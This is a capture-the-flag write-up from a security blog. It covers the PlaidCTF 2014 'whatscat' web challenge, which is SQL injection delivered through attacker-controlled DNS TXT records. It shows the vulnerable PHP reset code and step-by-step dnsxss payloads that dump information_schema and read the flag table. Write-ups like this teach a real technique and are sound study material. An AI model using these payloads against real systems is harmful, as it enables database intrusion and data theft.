 ```yaml
---
id: 1856
title: 'PlaidCTF writeup for Web-300 &#8211; whatscat (SQL Injection via DNS)'
date: '2014-04-16T12:29:31-05:00'
author: ron
layout: post
guid: 'https://blog.skullsecurity.org/?p=1856'
permalink: /2014/plaidctf-writeup-for-web-300-whatscat-sql-injection-via-dns
categories:
    - dns
    - hacking
    - plaidctf-2014
    - tools
---
```


Hey folks,

This is my writeup for Whatscat, just about the easiest 300-point Web level I've ever solved! I wouldn't normally do a writeup about a level like this, but much like <a href='/2014/plaidctf-web-150-mtpox-hash-extension-attack'>the mtpox</a> level I actually wrote the exact tool for exploiting this, and even wrote a <a href='/2010/stuffing-javascript-into-dns-names'>blog post about it</a> almost exactly 4 years ago - April of 2010. Unlike mtpox, this tool isn't the least bit popular, but it sure made my life easy!
<!--more-->
<h2>The set up</h2>

Whatscat is a php application where people can post photos of cats and comment on them (<a href='/blogdata/whatscat.tar.bz2'>Here's a copy of the source</a>).

The vulnerable code is in the password-reset code, in login.php, which looks like this:

<pre>
  <span class="Statement">elseif</span> <span class="Special">(</span><span class="Statement">isset</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">_POST</span><span class="Special">[</span>&quot;<span class="Constant">reset</span>&quot;<span class="Special">]))</span> <span class="Special">{</span>
    <span class="Statement">$</span><span class="Identifier">q</span> <span class="Statement">=</span> <span class="Identifier">mysql_query</span><span class="Special">(</span><span class="Identifier">sprintf</span><span class="Special">(</span>&quot;<span class="Constant">select username,email,id from users where username='%s'</span>&quot;,
      <span class="Identifier">mysql_real_escape_string</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">_POST</span><span class="Special">[</span>&quot;<span class="Constant">name</span>&quot;<span class="Special">])))</span>;
    <span class="Statement">$</span><span class="Identifier">res</span> <span class="Statement">=</span> <span class="Identifier">mysql_fetch_object</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">q</span><span class="Special">)</span>;
    <span class="Statement">$</span><span class="Identifier">pwnew</span> <span class="Statement">=</span> &quot;<span class="Constant">cat</span>&quot;<span class="Statement">.</span><span class="Identifier">bin2hex</span><span class="Special">(</span>openssl_random_pseudo_bytes<span class="Special">(</span><span class="Constant">8</span><span class="Special">))</span>;
    <span class="Statement">if</span> <span class="Special">(</span><span class="Statement">$</span><span class="Identifier">res</span><span class="Special">)</span> <span class="Special">{</span>
      <span class="PreProc">echo</span> <span class="Identifier">sprintf</span><span class="Special">(</span>&quot;<span class="Constant">&lt;p&gt;Don't worry %s, we're emailing you a new password at %s&lt;/p&gt;</span>&quot;,
        <span class="Statement">$</span><span class="Identifier">res</span><span class="Type">-&gt;</span>username,<span class="Statement">$</span><span class="Identifier">res</span><span class="Type">-&gt;</span>email<span class="Special">)</span>;
      <span class="PreProc">echo</span> <span class="Identifier">sprintf</span><span class="Special">(</span>&quot;<span class="Constant">&lt;p&gt;If you are not %s, we'll tell them something fishy is going on!&lt;/p&gt;</span>&quot;,
        <span class="Statement">$</span><span class="Identifier">res</span><span class="Type">-&gt;</span>username<span class="Special">)</span>;
<span class="Statement">$</span><span class="Identifier">message</span> <span class="Statement">=</span> <span class="Statement">&lt;&lt;&lt;</span><span class="Special">CAT</span>
Hello. Either you or someone pretending to be you attempted to reset your password.
Anyway, we set your new password to <span class="Statement">$</span><span class="Identifier">pwnew</span>

If it wasn't you who changed your password, we have logged their IP information as follows:
<span class="Special">CAT</span>;
      <span class="Statement">$</span><span class="Identifier">details</span> <span class="Statement">=</span> <span class="Identifier">gethostbyaddr</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">_SERVER</span><span class="Special">[</span>'<span class="Constant">REMOTE_ADDR</span>'<span class="Special">])</span><span class="Statement">.</span>
        <span class="Identifier">print_r</span><span class="Special">(</span><span class="Identifier">dns_get_record</span><span class="Special">(</span><span class="Identifier">gethostbyaddr</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">_SERVER</span><span class="Special">[</span>'<span class="Constant">REMOTE_ADDR</span>'<span class="Special">]))</span>,<span class="Constant">true</span><span class="Special">)</span>;
      <span class="Identifier">mail</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">res</span><span class="Type">-&gt;</span>email,&quot;<span class="Constant">whatscat password reset</span>&quot;,<span class="Statement">$</span><span class="Identifier">message</span><span class="Statement">.</span><span class="Statement">$</span><span class="Identifier">details</span>,&quot;<span class="Constant">From: whatscat@whatscat.cat</span><span class="Special">\r\n</span>&quot;<span class="Special">)</span>;
      <span class="Identifier">mysql_query</span><span class="Special">(</span><span class="Identifier">sprintf</span><span class="Special">(</span>&quot;<span class="Constant">update users set password='%s', resetinfo='%s' where username='%s'</span>&quot;,
              <span class="Statement">$</span><span class="Identifier">pwnew</span>,<span class="Statement">$</span><span class="Identifier">details</span>,<span class="Statement">$</span><span class="Identifier">res</span><span class="Type">-&gt;</span>username<span class="Special">))</span>;
    <span class="Special">}</span>
    <span class="Statement">else</span> <span class="Special">{</span>
      <span class="PreProc">echo</span> &quot;<span class="Constant">Hmm we don't seem to have anyone signed up by that name</span>&quot;;
    <span class="Special">}</span>
</pre>

Specifically, these lines:

<pre>
      <span class="Statement">$</span><span class="Identifier">details</span> <span class="Statement">=</span> <span class="Identifier">gethostbyaddr</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">_SERVER</span><span class="Special">[</span>'<span class="Constant">REMOTE_ADDR</span>'<span class="Special">])</span><span class="Statement">.</span>
        <span class="Identifier">print_r</span><span class="Special">(</span><span class="Identifier">dns_get_record</span><span class="Special">(</span><span class="Identifier">gethostbyaddr</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">_SERVER</span><span class="Special">[</span>'<span class="Constant">REMOTE_ADDR</span>'<span class="Special">]))</span>,<span class="Constant">true</span><span class="Special">)</span>;
      <span class="Identifier">mail</span><span class="Special">(</span><span class="Statement">$</span><span class="Identifier">res</span><span class="Type">-&gt;</span>email,&quot;<span class="Constant">whatscat password reset</span>&quot;,<span class="Statement">$</span><span class="Identifier">message</span><span class="Statement">.</span><span class="Statement">$</span><span class="Identifier">details</span>,&quot;<span class="Constant">From: whatscat@whatscat.cat</span><span class="Special">\r\n</span>&quot;<span class="Special">)</span>;
      <span class="Identifier">mysql_query</span><span class="Special">(</span><span class="Identifier">sprintf</span><span class="Special">(</span>&quot;<span class="Constant">update users set password='%s', resetinfo='%s' where username='%s'</span>&quot;,
              <span class="Statement">$</span><span class="Identifier">pwnew</span>,<span class="Statement">$</span><span class="Identifier">details</span>,<span class="Statement">$</span><span class="Identifier">res</span><span class="Type">-&gt;</span>username<span class="Special">))</span>;
</pre>

The $details variable is being inserted into the database unescaped. I've noted in the past that people trust DNS results just a bit too much, and this is a great example of that mistake! If we can inject SQL code into a DNS request, we're set!

...this is where I wasted a lot of time, because I didn't notice that the print_r() is actually part of the same statement as the line before it - I thought only the reverse DNS entry was being put into the database. As such, my friend <a href='https://twitter.com/mak_kolybabi'>Mak</a>&mdash;who was working on this level first&mdash;tried to find a way to change the PTR record, and broke all kinds of <a href='http://www.skullspace.ca'>SkullSpace</a> infrastructure as a result.

I ended up trying to log in as 'admin'/'password', and, of course, failed. On a hunch, I hit 'forgot password' for admin. That sent me to a <a href='http://mailinator.com/'>Mailinator</a>-like service. I logged into the mailbox, and noticed somebody trying to sql inject using TXT records. This wasn't an actual admin&mdash;like I thought it was&mdash;it was another player who just gave me a huge hint (hooray for disposable mail services!). Good fortune!

Knowing that a TXT record would work, it actually came in handy that Mak controls the PTR records for all SkullSpace ip addresses. He could do something useful instead of breaking stuff! The server I use for blogs (/me waves) and such is on the SkullSpace network, so I got him to set the PTR record to test.skullseclabs.org. In fact, if you do a reverse lookup for '206.220.196.59' right now, you'll still see that:

<pre>
$ host blog.skullsecurity.org
blog.skullsecurity.org is an alias for skullsecurity.org.
skullsecurity.org has address 206.220.196.59
$ host 206.220.196.59
59.196.220.206.in-addr.arpa domain name pointer test.skullseclabs.org.
</pre>

I control the authoritative server for test.skullseclabs.org&mdash;that's why it exists&mdash;so I can make it say anything I want for any record. It's great fun! Though arguably overkill for this level, at least I didn't have to flip to my registrar's page every time I wanted to change a record; instead, I can do it quickly using a tool I wrote called <a href='https://github.com/iagox86/nbtool'>dnsxss</a>. Here's an example:

<pre>
$ sudo ./dnsxss <span class="Special">--payload=</span><span class="Statement">&quot;</span><span class="Constant">Hello yes this is test</span><span class="Statement">&quot;</span>
Listening <span class="Statement">for </span>requests on 0.0.0.0:<span class="Constant">53</span>
Will response to queries with: Hello/yes/this/is/<span class="Statement">test</span>

$ dig <span class="Statement">-t</span> txt test123.skullseclabs.org
<span class="Statement">[</span>...<span class="Statement">]</span>
<span class="Statement">;;</span> ANSWER SECTION:
test123.skullseclabs.org. <span class="Constant">1</span>     IN      TXT     <span class="Statement">&quot;</span><span class="Constant">Hello yes this is test.test123.skullseclabs.org</span><span class="Statement">&quot;</span>
</pre>

All I had to do was find the right payload!

<h2>The exploit</h2>

I'm not a fan of working blind, so I made my own version of this service locally, and turned on SQL errors. Then I got to work constructing an exploit! It was an UPDATE statement, so I couldn't directly exploit this - I could only read indirectly by altering my email address (as you'll see). I also couldn't figure out how to properly terminate the sql string (neither '#' nor '-- ' nor ';' properly terminated due to brackets). In the end, my payload would:

<ul>
  <li>Tack on an extra clause to the UPDATE that would set the 'email' field to another value</li>
  <li>Read properly right to the end, which means ending the query with "resetinfo='", so the "resetinfo" field gets set to all the remaining crap</li>
</ul>

So, let's give this a shot!

<pre>./dnsxss --payload="test', email='test1234', resetinfo='"</pre>

Then I create an account, reset the password from my ip address, and refresh. The full query&mdash;dumped from my test server&mdash;looks like:

<pre><span class="Statement">update</span> users <span class="Statement">set</span> password=<span class="Constant">'catf7a252e008616c94'</span>, resetinfo=<span class="Constant">'test.skullseclabs.orgArray ( [0] =&gt; Array ( [host] =&gt; test.skullseclabs.org [class] =&gt; IN [ttl] =&gt; 1 [type] =&gt; TXT [txt] =&gt; test'</span>, email=<span class="Constant">'test1234'</span>, resetinfo=<span class="Constant">'.test.skullseclabs.org [entries] =&gt; Array ( [0] =&gt; test'</span>, email=<span class="Constant">'test1234'</span>, resetinfo=<span class="Constant">' ) ) ) '</span> <span class="Special">where</span> username=<span class="Constant">'ron'</span></pre>


As you can see, that's quite a mess (note that the injected stuff appears twice.. super annoying). After that runs, the reset-password page looks like:

<pre>
Don't worry ron, we're emailing you a new password at <strong>test1234</strong>

If you are not ron, we'll tell them something fishy is going on!
</pre>

Sweet! I successfully changed my password!

But... what am I looking for?

MySQL has this super handy database called information_schema, which contains tables called 'SCHEMATA', 'TABLES', and 'COLUMNS', and it's usually available for anybody to inspect. Let's dump SCHEMATA.SCHEMA_NAME from everything:

<pre>./dnsxss --payload="test', email=(select group_concat(SCHEMA_NAME separator ', ') from information_schema.SCHEMATA), resetinfo='"</pre>

Then refresh a couple times to find:

<pre>
Don't worry ron, we're emailing you a new password at <strong>information_schema, mysql, performance_schema, whatscat</strong>

If you are not ron, we'll tell them something fishy is going on!
</pre>

Great! Three of those are built-in databases, but 'whatscat' looks interesting. Now let's get table names from whatscat:

<pre>./dnsxss --payload="test', email=(select group_concat(TABLE_NAME separator ', ') from information_schema.TABLES where TABLE_SCHEMA='whatscat'), resetinfo='"</pre>

Leads to:

<pre>
Don't worry ron, we're emailing you a new password at <strong>comments, flag, pictures, users</strong>

If you are not ron, we'll tell them something fishy is going on!
</pre>

flag! Sweet! That's a pretty awesome looking table! Now we're one simple step away... what columns does 'flag' contain?

<pre>./dnsxss --payload="test', email=(select group_concat(COLUMN_NAME separator ', ') from information_schema.COLUMNS where TABLE_NAME='flag'), resetinfo='"</pre>

Leads to:

<pre>
Don't worry ron, we're emailing you a new password at <strong>flag</strong>

If you are not ron, we'll tell them something fishy is going on!
</pre>

All right, we know the flag is in whatscat.flag.flag, so we write one final query:

<pre>./dnsxss --payload="test', email=(select group_concat(flag separator ', ') from whatscat.flag), resetinfo='"</pre>

Which gives us:

<pre>
Don't worry ron, we're emailing you a new password at <strong>20billion_d0llar_1d3a</strong>

If you are not ron, we'll tell them something fishy is going on!
</pre>

And now we dance.

<h2>Conclusion</h2>

If you're interested in DNS attacks&mdash;this scenario and a whole bunch of others&mdash;come see my talk at <a href='http://www.bsidesquebec.org/'>BSidesQuebec</a> this June!!!